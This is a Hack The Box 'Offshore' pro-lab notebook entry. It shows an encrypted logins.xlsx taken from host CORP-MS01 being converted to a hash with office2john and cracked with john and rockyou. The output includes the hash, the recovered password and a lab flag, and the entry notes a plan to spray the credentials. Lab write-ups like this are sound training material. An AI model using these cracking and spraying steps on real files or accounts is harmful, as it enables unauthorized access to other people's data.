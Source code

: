 Return:
[[Penetration Testing v2/htb_pro_Labs/offshore/3. 172.16.1.36 -CORP-WSADM/Initial Access]]

Pulled logins.xlsx, needs a password to login

Passwords Tried:

![[Penetration Testing v2/htb_Everything/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231019150303.png]]
Sync'd file to have it pulled to my kali machine
- Convert logins.xlsx to logins-hash.txt with `office2john`
```bash
[root💀~/offshore/ms01] [10.10.14.39] [2023-10-20 13:07:10]  
 └─╼ # office2john logins.xlsx > logins-hash.txt  
```
Ensure that the file was properly transferred to hash.txt
```bash
[root💀~/offshore/ms01] [10.10.14.39] [2023-10-20 13:08:17] 
 └─╼ # cat logins-hash.txt 
logins.xlsx:$office$*2013*100000*256*16*6e2731071c58ebe3183c5b977ca7b3b7*066bf7f3cdf4cafe11174c18628cc37f*82f49a87dd9a11168d4f6fe3527edde1151e78baeccd6a7d32d7a0badc75f531
```
Prosper
```bash
[root💀~/offshore/ms01] [10.10.14.39] [2023-10-20 13:08:29] 
 └─╼ # john --rules --wordlist=/usr/share/wordlists/rockyou.txt logins-hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Office, 2007/2010/2013 [SHA1 256/256 AVX2 8x / SHA512 256/256 AVX2 4x AES])
Cost 1 (MS Office version) is 2013 for all loaded hashes
Cost 2 (iteration count) is 100000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:10 0.00% (ETA: 2024-06-04 00:45) 0g/s 36.71p/s 36.71c/s 36.71C/s jeffrey..jerome
broken           (logins.xlsx)     
1g 0:00:00:15 DONE (2023-10-20 13:09) 0.06406g/s 38.94p/s 38.94c/s 38.94C/s evelyn..flores
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
![[Penetration Testing v2/htb_Everything/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231020133008.png]]
Login to `logins.xlsx` with password
![[Penetration Testing v2/htb_Everything/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231020133145.png]]

![[Penetration Testing v2/htb_Everything/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231020133351.png]]
Going to spray credentials:
![[Penetration Testing v2/htb_Everything/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231020133854.png]]
Flag that was in sheet2
```bash
OFFSHORE{p@ssw0rds_1n_cl3ar_t3xT}
```